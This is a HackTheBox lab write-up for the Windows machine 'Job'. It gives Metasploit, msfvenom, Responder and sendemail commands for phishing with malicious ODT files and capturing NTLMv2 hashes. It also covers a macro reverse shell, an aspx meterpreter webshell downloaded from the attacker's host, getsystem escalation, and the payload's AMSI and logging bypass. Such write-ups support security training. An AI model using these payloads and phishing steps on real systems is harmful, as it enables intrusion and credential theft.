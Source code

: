 # [HackTheBox - Job](https://app.hackthebox.com/machines/Job)
![b7e7f7bd99b41a69580c344a96e11a66.png](../..//resources/b7e7f7bd99b41a69580c344a96e11a66.png)
[toc]
***
## Abstract
Job is a vulnlab machine imported to HackTheBox as a medium Windows box. I started with network enumeration using nmap, which showed the host was a Windows server running SMTP, HTTP, SMB, RDP, and WinRM.

During web enumeration I discovered an email address on the site that could be used for phishing via the exposed SMTP service. I used Metasploit’s "odt_badodt" module to craft a macro-embedded LibreOffice (.odt) file for a reverse shell and obtained an initial shell as "jack.black".

"jack.black" is a member of the "developers" group, which has Full Control over the webroot. I uploaded a webshell and gained a second reverse shell as "IIS APPPOOL\DefaultAppPool". This account has SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege, which I leveraged with Meterpreter’s getsystem (token impersonation) to escalate to SYSTEM and root the box.

## Enumeration

Starting with nmap port scanning and we can see that there are multiple ports opened including 25,80,445,3389 and 5985
```
nmap $IP
```
![0ff4321b40407db815d0281a3e16abb3.png](../..//resources/0ff4321b40407db815d0281a3e16abb3.png)

Then I did another scan but this time I specified all ports identified from previous scan and use `-sCV` for service enumeration and run nmap script engine but we did not get much return for this command so we gonna take a look at the website next.
```
nmap $IP -p 25,80,445,3389,5985 -sCV
```
![ff7ee6a85745d545270059d887bda175.png](../..//resources/ff7ee6a85745d545270059d887bda175.png)

On the website, we can see that we must send libre office (odt) file to career@job.local via SMTP protocol, classic phishing case it is.
![6776c064c11e7a6723686025fd527f94.png](../..//resources/6776c064c11e7a6723686025fd527f94.png)

Techstack of this website is nothing too special, everything is by default from IIS to Microsoft ASP.NET
![ceb607bb990ec0cfaad085e627d45c81.png](../..//resources/ceb607bb990ec0cfaad085e627d45c81.png)

First I will use the "odt_badodt" Metasploit module to quickly generate a LibreOffice file that references a non-existing object on our share to force NTLMv2 authentication; when Windows attempts to access the UNC path it sends an SMB authentication (NTLMSSP) containing the NTLMv2 challenge/response to the target host. (btw I had to run as root because of Permission denied error)
```
use auxiliary/fileformat/odt_badodt
set lhost tun0
set creator mark
set filename resume.odt
run
```
![9a42b89ba42ceeefc336b7eac3f5a27a.png](../..//resources/9a42b89ba42ceeefc336b7eac3f5a27a.png)

Then I set a responder to wait for the request on tun0 interface which is our HTB VPN interface.
```
sudo responder -I tun0
```

After responder is ready, We can send an email with an attachment to the server like this
```
sendemail -s $IP -f "mark <mark@job.vl>" -t career@job.local -o tls=no -m "Please review my resume senpai uwu" -a resume.odt 
```
![726803fe7c8f17c000b4b58b09721e92.png](../..//resources/726803fe7c8f17c000b4b58b09721e92.png)

And sure enough, the SMB authentication was sent from the machine back to us and we can see that "jack.black" was aggressively review our attachment.
![6e8a12a626c29932d1beba2db9e2dd5a.png](../..//resources/6e8a12a626c29932d1beba2db9e2dd5a.png)

I tried to crack the hash with John The Ripper given the infamous `rockyou.txt` wordlist but no luck which mean the password of this user is not in `rockyou.txt` wordlist so cracking is not the way.
![d2e532f4866ec92e387739b66f576361.png](../..//resources/d2e532f4866ec92e387739b66f576361.png)

## Initial Access with ODT file to reverse shell

Since we know that "jack.black" will definitely open any odt attachment we give to him so let's change the plan to make macro document that will trigger a reverse shell back to us upon opening 

Luckily for us that Metasploit got us cover with "openoffice_document_macro" module so we set a payload and send this as an email attachment again.
```
use multi/misc/openoffice_document_macro
set payload payload/windows/x64/shell/reverse_tcp
set LHOST tun0
set SRVPORT 80
set SRVHOST tun0
set URIPATH serve
run
```
![7a90282f11ae718fa08fafc379bca41d.png](../..//resources/7a90282f11ae718fa08fafc379bca41d.png)

Send email again with newly created document from metasploit  and we can see that we get a shell back as "jack.black" user as expected
```
sendemail -s $IP -f "mark <mark@job.vl>" -t career@job.local -o tls=no -m "Please review my resume senpai uwu" -a msf.odt
```
![6d8b39a46641294b7af51c93b88698fa.png](../..//resources/6d8b39a46641294b7af51c93b88698fa.png)
![2fe4b8d013519229ec52fb88c8fc9d3a.png](../..//resources/2fe4b8d013519229ec52fb88c8fc9d3a.png)

User flag is located on the desktop of this user so we can loot it and start enumerating for privilege escalation vector.
![38d94ac15fefb064c79b1258135e2ea2.png](../..//resources/38d94ac15fefb064c79b1258135e2ea2.png)

If normal shell is not enough, we can also change our payload to meterpreter to get a meterpreter session as well.
![9cbeb18d6f6024777201b5290417ca41.png](../..//resources/9cbeb18d6f6024777201b5290417ca41.png)

## Privilege Escalation - Webroot modification to SeImpersonatePrivilege 
### Get shell as DefaultAppPool via webshell
After exploring the machine, we can see that this user is in the "developers" group which have full access to "wwwroot" folder and thats mean we can do anything to this folder including drop a webshell on it.
![8ffd1c418cee011023c1695b24ed9c31.png](../..//resources/8ffd1c418cee011023c1695b24ed9c31.png)

Since the server is running IIS (which commonly hosts ASP.NET and executes .aspx pages), We can add an .aspx webshell and trigger it on our web browser which will triggered a reverse shell back to us. but first we need to create webshell first (alternatively you can use pre-made aspx shell like landanum for this as well)
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=5555 -f aspx > shell.aspx
```
![033fcfee46352a5d7717388c44239db3.png](../..//resources/033fcfee46352a5d7717388c44239db3.png)

We can use lolbin to download file or even PowerShell to the webroot folder and PowerShell is much more convenient for me. (or use upload function in meterpreter)
```
iwr http://10.10.14.101:8000/shell.aspx -o shell.aspx
```
![d6c4fb1716856d8cd8835dbe91a9ed78.png](../..//resources/d6c4fb1716856d8cd8835dbe91a9ed78.png)

Now we have our payload ready but we will also need to set up our listener and "multi/handler" module is the most suitable one for the payload we just created eariler.
```
use multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set lhost tun0
set lport 5555
run
```

I accessed the webshell in my browser, which triggered a reverse shell payload and spawned a new Meterpreter session. Interacting with the session shows we have a shell as "IIS APPPOOL\DefaultAppPool" — the application-pool identity for IIS. App-pool identities often have SeImpersonatePrivilege (allowing impersonation), which can be abused for token/privilege-stealing techniques.
![c9de59cf0261e68c96492617e9a8093c.png](../..//resources/c9de59cf0261e68c96492617e9a8093c.png)

### Become SYSTEM with SeImpersonatePrivilege
There are multiple tools that can be used to leverage 
SeImpersonatePrivilege and Meterpreter already have couple methods for that which we can just simply run a single command from meterpreter session and finger cross 🤞 we are SYSTEM now.
```
getsystem
```
![c66ee0736a8e9a37f08b1bdf716a7811.png](../..//resources/c66ee0736a8e9a37f08b1bdf716a7811.png)

Now we root the box and done :D
![c41327a9263c49e879d643a2b7e171b4.png](../..//resources/c41327a9263c49e879d643a2b7e171b4.png)

https://labs.hackthebox.com/achievement/machine/1438364/757
***
## Bonus - ODT attachment inspection
### NTLM Theft ODT
In metasploit, when we create a bad odt file, it will embeded an image that will load non-existing file on our share drive upon loading this document hence the SMB authentication to our responder. 
![724783bd163ef84d2f7d2392bf5ec306.png](../..//resources/724783bd163ef84d2f7d2392bf5ec306.png)
![7cb47e2111502893094c88016881d3fb.png](../..//resources/7cb47e2111502893094c88016881d3fb.png)

### Reverse Shell ODT
On the ODT file that responsible for reverse shell, it will be embeded as a macro which will automatically launched upon opening if Macro is enabled on the target. 
![7b07d8ce4d11f1b06574885369afe1db.png](../..//resources/7b07d8ce4d11f1b06574885369afe1db.png)

Inspecting the macro, we can see that there is "OnLoad" function that will check the OS of the target that opened this file and if it can run powershell then it will fetch and execute payload hosted on with metasploit. (This is a stager payload so it make sense that it will fetch another payload from the server upon execution)
![349a26ff5345cab7941ac7e697de490b.png](../..//resources/349a26ff5345cab7941ac7e697de490b.png)

The payload will attempt to bypass Scriptblock logging and Amsi before execute another powershell payload that was gzipped and base64 encoded.
![0e4d5802f4d1f8def35f2d32ed4c8d98.png](../..//resources/0e4d5802f4d1f8def35f2d32ed4c8d98.png)

The last payload will eventually inject shellcode into the memory and result in reverse shell between target host and our machine
![8f5d0b17bce4c7b29afe12fc1654dd2e.png](../..//resources/8f5d0b17bce4c7b29afe12fc1654dd2e.png)

That's it for today, peace!
* * *
